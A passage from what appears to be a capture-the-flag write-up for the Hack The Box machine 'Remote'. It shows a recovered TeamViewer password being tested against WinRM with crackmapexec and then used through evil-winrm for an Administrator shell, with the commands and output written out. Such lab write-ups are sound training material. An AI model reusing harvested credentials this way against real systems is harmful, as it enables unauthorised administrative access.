┌──(kali㉿kali)-[~]
└─$ cat /home/kali/.msf4/loot/20241206075153_default_10.10.10.180_host.teamviewer__018160.txt
Unattended Password: !R3m0te!
```

It found `Administrator`'s password : `!R3m0te!`

Let's test where it works.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.180 -u Administrator -p '!R3m0te!'
SMB         10.10.10.180    5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
HTTP        10.10.10.180    5985   REMOTE           [*] http://10.10.10.180:5985/wsman
WINRM       10.10.10.180    5985   REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

It's working on `winrm`! I can open a shell as `Administrator` using `evil-winrm`!
Let's open a shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.180 -u Administrator -p '!R3m0te!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```

I got root!